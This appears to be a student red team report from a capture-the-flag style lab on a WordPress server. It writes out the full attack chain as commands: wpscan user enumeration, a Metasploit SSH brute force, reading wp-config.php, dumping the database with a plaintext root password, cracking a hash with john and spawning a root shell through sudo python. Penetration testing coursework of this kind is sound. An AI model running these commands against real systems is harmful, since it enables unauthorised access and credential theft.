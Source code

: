 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

-----
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
  - 
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```

Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
```
> exit
```
```
$ exit
```
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
```
$ ssh steven@192.168.1.110
```
```
$ sudo -l
```
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
```
$ find / -iname "flag4*" 2> /dev/null
```
```
$ cat /root/flag4.txt
```

-----


